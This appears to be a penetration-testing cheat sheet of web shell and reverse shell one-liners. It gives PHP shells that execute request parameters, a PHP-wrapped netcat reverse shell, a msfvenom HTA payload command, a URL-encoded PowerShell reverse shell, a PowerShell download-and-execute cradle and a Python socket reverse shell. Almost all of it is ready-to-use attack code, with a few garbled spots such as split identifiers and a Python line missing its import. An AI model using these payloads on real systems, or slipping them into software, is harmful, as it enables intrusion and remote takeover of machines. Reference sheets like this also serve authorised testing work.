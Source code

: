 ###### ALL THE SHELLS
```
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?> 
```
```
<?php echo shell_exec($_GET['cmd']); ?> 
```
```
-Old NC shell-
<?php echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 443 >/tmp/f");?>
```
```
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=4444 -f hta-psh evil.hta
```
## Powershell shells

### PowerShell Reverse Shell ( & and + symbols URLencoded )
```
powershell -c "%24client = New-Object System.Net.Sockets.TCPClient('<ipp>',<port>);%24stream = %24client.GetStream();[byte[]]%24bytes = 0..65535|%{0};while((%24i = %24stream.Read(%24bytes, 0, %24bytes.Length)) -ne 0){;%24data = (New-Object -TypeName System.T ext.ASCIIEncoding).GetString(%24bytes,0, %24i);%24sendback = (iex %24data 2>&1 | Out-String ); %24sendback2 = %24sendback %2B 'PS ' %2B (pwd).Path %2B '> ';%24sendbyte = ([text.encoding]::ASCII ).GetBytes(%24sendback2);%24stream.Write(%24sendbyte,0,%24sendbyte.Length);%24stream.Flush()};%24c lient.Close()"
```
Download a bindshell
```
'powershell "IEX(New-Object Net.WebClient).downloadString(\"http://IP:8000/shell.ps1\")"'
```
python -c socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
